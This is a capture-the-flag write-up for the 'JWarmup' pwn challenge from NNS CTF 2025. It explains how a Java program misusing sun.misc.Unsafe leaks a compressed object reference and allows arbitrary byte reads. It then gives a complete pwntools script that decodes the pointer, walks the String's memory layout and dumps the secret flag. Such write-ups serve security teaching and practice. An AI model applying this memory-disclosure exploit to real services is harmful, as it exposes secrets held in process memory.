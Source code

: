# JWarmup – NNS CTF 2025 (PWN)

## Challenge description
> *"My application was written in a modern- and memory safe language known as Java. It contains my secret, can you read it?"*  

We’re given a Java program that uses `sun.misc.Unsafe` to poke at raw memory. Despite being in Java, it’s essentially a memory disclosure challenge.


---

## Vulnerable code

```java
public static void main(String[] args) {
    var flag = System.getenv("FLAG");
    if (flag == null) {
        flag = "NNS{fake_flag}";
    }

    var safe = getSafe();

    Object[] arr = new Object[]{flag};
    var string = Long.toHexString(safe.getLong(arr, 16));
    System.out.println("Here you go: " + string);

    var scanner = new Scanner(System.in);
    while (true) {
        try {
            System.out.print("Enter an address to read: ");
            var address = Long.valueOf(scanner.nextLine(), 16);
            var out = safe.getByte(address);
            System.out.printf("You read: %02X\n", out);
        } catch (NumberFormatException ignored) {
            System.err.println("Bad");
            System.exit(1);
        }
    }
}
```
Key points:

- The `flag` string is stored in an array.
- `Unsafe.getLong(arr, 16)` leaks a **compressed reference (narrow oop)** to the flag object.
- We can then enter arbitrary memory addresses to read single bytes with `getByte()`.    

This essentially gives us a memory dump primitive.

---

## Vulnerability

Java normally hides memory addresses, but here:

1. `safe.getLong(arr, 16)` leaks the reference to `flag`.
    
    - HotSpot JVM stores object references as **compressed oops** (offsets relative to a base, shifted left by 3).
        
    - We need to decode them to get native addresses.
        
2. We can use `Unsafe.getByte(addr)` to read arbitrary memory.
    
3. By walking the object layout of a Java `String`, we eventually reach its character array and dump the flag bytes.
    

So although the code looks “safe”, this is basically raw memory exploitation inside the JVM.

---

## Exploit

We connect with pwntools, decode the leaked compressed oop, and walk memory until we reach the flag:
```python
#!/usr/bin/env python3
from pwn import *
import re

HOST = "8f6372c5-0220-4e5a-998f-8beebfd6692e.chall.nnsc.tf"
PORT = 41337

r = remote(HOST, PORT, ssl=True)

# Convert compressed oop to native pointer
def native(addr):
    return (addr & 0xFFFFFFFF) << 3

# Leak compressed oop
r.recvuntil(b"Here you go: ")
addr = int(r.recvline().strip(), 16)
log.info(f"Compressed reference: {hex(addr)}")

nb = native(addr)
log.info(f"Native object base: {hex(nb)}")

# Trial and error showed the value pointer lives at offset +20
val_start = nb + 20
val_ptr = b""
for i in range(4):
    r.recvuntil(b"Enter an address to read: ")
    r.sendline(hex(val_start + i)[2:].encode())
    r.recvuntil(b"You read: ")
    val_ptr = r.recvline().strip() + val_ptr

val_ptr = int(val_ptr, 16)
log.info(f"Flag array (compressed): {hex(val_ptr)}")

val_ptr = native(val_ptr) + 16
log.info(f"Flag array (native): {hex(val_ptr)}")

# Dump string contents
flag = b""
for i in range(128):
    r.recvuntil(b"Enter an address to read: ")
    r.sendline(hex(val_ptr + i)[2:].encode())
    r.recvuntil(b"You read: ")
    flag += r.recvline().strip()

flag = bytes.fromhex(flag.decode())
print(f"[+] Flag: {flag}")
```
